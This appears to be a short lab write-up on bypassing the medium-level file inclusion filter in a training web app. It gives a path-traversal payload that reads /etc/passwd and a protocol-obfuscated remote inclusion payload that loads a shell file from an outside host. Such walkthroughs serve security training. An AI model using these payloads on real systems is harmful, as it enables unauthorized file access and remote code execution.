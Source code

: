 📂 File Inclusion – Medium Security Level

### 🛠️ Objective:
Bypass basic filters to achieve LFI and possibly RFI.

---

### 🔒 What's Different?

In the source code, input to the `page` parameter is filtered:
- Replaces all occurrences of `../` and `..\` with an empty string

---

### 🧭 Bypassing Filter

Use a trick like `..././` to avoid exact match of `../`:
```bash
page=..././..././..././..././etc/passwd
````

✅ This bypasses the filter and successfully includes `/etc/passwd`.

> 🎯 The string `..././` avoids the exact pattern `../` but still traverses directories.

---

### 🌐 Remote File Inclusion Bypass

To bypass `http` filters, obfuscate the protocol:

```bash
page=hthttp://tp://your-ip/shell.txt
```

Or use other encoding tricks depending on the environment.

---

### 🧩 Summary

* ⚠️ LFI and RFI still possible with obfuscation
* 🚫 Basic filter in place, but not effective

## ✅ Status

* ⚠️ Still exploitable with slight tricks
* 🟡 Requires intermediate techniques
